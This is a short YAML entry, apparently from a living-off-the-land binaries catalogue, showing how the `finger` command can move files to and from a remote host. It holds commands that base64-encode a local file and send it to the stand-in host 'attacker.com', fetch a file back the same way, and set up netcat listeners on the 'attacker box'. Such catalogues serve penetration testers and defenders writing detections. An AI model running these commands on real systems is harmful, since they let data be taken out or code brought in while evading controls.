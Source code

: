 ```yaml
---
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
  file-download:
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        LFILE=file_to_save
        finger x@$RHOST | base64 -d > "$LFILE"
---
```

